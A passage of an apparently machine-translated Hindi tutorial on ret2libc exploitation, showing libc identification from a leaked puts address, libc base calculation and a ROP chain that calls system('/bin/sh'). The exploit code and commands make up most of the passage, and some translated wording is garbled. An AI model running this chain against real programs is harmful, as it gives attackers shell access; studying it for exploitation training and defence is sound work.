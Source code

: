 * Libc सिम्बल नाम: `puts`
* लीकेड libc पता: `0x7ff629878690`

हम यह तय कर सकते हैं कि कौन सी **libc** उपयोग की जा रही है।
```bash
./find puts 0x7ff629878690
ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
archive-glibc (id libc6_2.23-0ubuntu11_amd64)
```
हमें 2 मैच मिलते हैं (अगर पहला काम नहीं कर रहा है तो आपको दूसरा प्रयास करना चाहिए)। पहला डाउनलोड करें:
```bash
./download libc6_2.23-0ubuntu10_amd64
Getting libc6_2.23-0ubuntu10_amd64
-> Location: http://security.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.23-0ubuntu10_amd64.deb
-> Downloading package
-> Extracting package
-> Package saved to libs/libc6_2.23-0ubuntu10_amd64
```
### 3.3- लीक करने के लिए अन्य फ़ंक्शन

`libs/libc6_2.23-0ubuntu10_amd64/libc-2.23.so` से libc की कॉपी हमारे काम करने के निर्देशिका में करें।
```python
puts
printf
__libc_start_main
read
gets
```
## 4- आधारित libc पता लगाना और उसका शोषण करना

इस बिंअरी का उपयोग करते समय हमें लिब्सी पुस्तकालय का पता होना चाहिए। मैं बस यहाँ प्रयोग करूंगा: `/lib/x86_64-linux-gnu/libc.so.6`

इसलिए, `template.py` के शुरू में **libc** चर को बदलें: `libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") #Set library path when know it`

**libc पुस्तकालय** के **पथ** देने से **शोषण का शेष भाग स्वचालित रूप से** होगा।

`get_addr` फ़ंक्शन के भीतर **libc का आधार पता** लगाया जाएगा:
```python
if libc != "":
libc.address = leak - libc.symbols[func_name] #Save libc base
log.info("libc base @ %s" % hex(libc.address))
```
{% hint style="info" %}
ध्यान दें कि **अंतिम libc बेस पता 00 में समाप्त होना चाहिए**। यदि ऐसा नहीं है तो आपने गलत पुस्तकालय का लीक किया हो सकता है।
{% endhint %}

फिर, **सिस्टम** फ़ंक्शन के पते और **_"/bin/sh"_** स्ट्रिंग के **पते** को **गणना** किया जाएगा **libc** के **बेस पते** से और दिए गए **libc पुस्तकालय**।
```python
BINSH = next(libc.search("/bin/sh")) - 64 #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
```
अंत में, /bin/sh निष्पादन उत्पीड़न तैयार किया जा रहा है भेजने के लिए:
```python
rop2 = OFFSET + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) + p64(EXIT)

p.clean()
p.sendline(rop2)
```